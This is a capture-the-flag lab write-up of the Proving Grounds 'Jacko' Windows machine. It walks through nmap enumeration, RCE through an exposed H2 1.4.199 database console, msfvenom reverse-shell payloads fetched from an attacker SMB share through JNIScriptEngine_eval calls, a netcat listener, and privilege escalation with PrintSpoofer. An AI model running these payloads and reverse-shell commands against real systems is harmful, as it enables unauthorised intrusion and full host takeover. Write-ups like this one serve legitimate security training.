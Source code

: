 ```yaml
---
layout: default
title: x003-Jacko
nav_order: 2
has_children: false
parent: ProvingGrounds
grand_parent: Writeups
---
```


## x003-Jacko
### Enumeration
#### NMAP 
```sh
nmap -A -T4 192.168.95.66 -p-
```
Resulting in : 
```
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: H2 Database Engine (redirect)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
7680/tcp open  pando-pub?
8082/tcp open  http          H2 database http console
|_http-title: H2 Console
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -1s
| smb2-time: 
|   date: 2022-02-20T15:20:34
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required

```

#### Web

Accessing directly the IP on our browser we notice that a webserver is running and that an H2 Database might be present on the server.

The console web server is also exposed on port 8082 (from the NMAP scan) and the default user allow us to access the console. 

We notice the version of the H2 running : 1.4.199

### Access
After a research on searchsploit we found an exploit for RCE : 

```bash
searchsploit H2 1.4.199
```

![](attachments/Pasted%20image%2020220220163503.png)

After executing all the step in the exploit we get the expected result, the console give us the RCE : 
![](attachments/Pasted%20image%2020220220163601.png)

The payload must be updated in order to obtain a reverse shell.
The payload was created with msfvenom : 
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.49.218 LPORT=80 -f exe -o reverse.exe
```
It was served using the samba server inside impacket : 
```bash
python3 /opt/impacket/examples/smbserver.py -smb2support Share .  
```

Then we can download it on our target :
```java
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("cmd.exe /c copy \\\\192.168.49.218\\Share\\reverse.exe c:\\users\\tony\\reverse.exe").getInputStream()).useDelimiter("\\Z").next()');
```

And run it : 
```java
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("c:\\users\\tony\\reverse.exe").getInputStream()).useDelimiter("\\Z").next()');
```


Once login in order to get access to the command we have to fix our PATH : 
```sql
set PATH=%PATH%;C:\Windows\System32;C:\Program Files
```

![](attachments/Pasted%20image%2020220220221531.png)

### Privilege Escalation

After executing winpeas, nothing suspicious was found. 

But after listing the software installed in order to check for potential privilege escalation, one software look possible to exploit : 
![](attachments/Pasted%20image%2020220301231633.png)
```sh
searchsploit PaperStream IP
```

![](attachments/Pasted%20image%2020220301230844.png)

Inside the exploit we have extra indication to generate the needed dll : 
```sh
msfvenom -p windows/x64/shell_reverse_tcp -f dll -o shell.dll LHOST=192.168.49.218 LPORT=445
```

We expose our file using our Python SMB share and we use the following payload to download it : 
```java
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("cmd.exe /c copy \\\\192.168.49.218\\Share\\shell.dll c:\\users\\tony\\shell.dll").getInputStream()).useDelimiter("\\Z").next()');
```

We update or exploit before downloading it :
```powershell
$PayloadFile = "C:\Users\tony\shell.dll"
```

Then :
```java
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("cmd.exe /c copy \\\\192.168.49.218\\Share\\privesc.ps1 c:\\users\\tony\\privesc.ps1").getInputStream()).useDelimiter("\\Z").next()');
```

We wait for the privileged reverse shell : 
```sh
nc -lnvp 445
```


The reverse shell didn't show, we get back to common PrivEsc like PrintSpoofer : 

![](attachments/Pasted%20image%2020220301234220.png)

```java
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("cmd.exe /c copy \\\\192.168.49.218\\Share\\PrintSpoofer64.exe c:\\users\\tony\\PrintSpoofer64.exe").getInputStream()).useDelimiter("\\Z").next()');
```

Then we execute the exe and here we are : 
![](attachments/Pasted%20image%2020220301234528.png)

And we could retrieve the flag : 
![](attachments/Pasted%20image%2020220301234625.png)
